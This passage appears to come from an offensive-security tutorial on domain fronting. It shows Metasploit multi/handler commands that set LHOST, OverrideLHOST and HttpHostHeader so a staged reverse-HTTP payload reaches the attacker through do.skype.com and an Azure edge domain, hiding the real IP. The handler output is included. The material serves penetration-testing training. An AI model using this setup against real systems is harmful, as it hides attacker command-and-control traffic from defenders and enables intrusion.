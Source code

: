 When we use a staged payload, there are some additional settings we need to configure for our listener.

The first stage will set the address for the second stage based on the actual IP address and port of the listener. This won’t work for us because it will directly connect to our real IP. Since we obviously want to hide communication to this IP, we’ll need to ensure that the second stage is also connecting to do.skype.com.

To do this, we’ll need to set up some advanced options for our listener. We need to set the OverrideLHOST option to our domain, and also set OverrideRequestHost to “true”. We can change the listening port as well with the OverrideLPORT option, but this is unnecessary for this example.

Once this is set up we will start the listener with run -j, which will run the listener as a job.
```bash
msf5 exploit(multi/handler) > set LHOST do.skype.com
msf5 exploit(multi/handler) > set OverrideLHOST do.skype.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
msf5 exploit(multi/handler) > set HttpHostHeader offensive-security.azureedge.net
msf5 exploit(multi/handler) > run -j
...
[-] Handler failed to bind to 152.199.19.161:80
[*] Started HTTP reverse handler on http://0.0.0.0:80
```

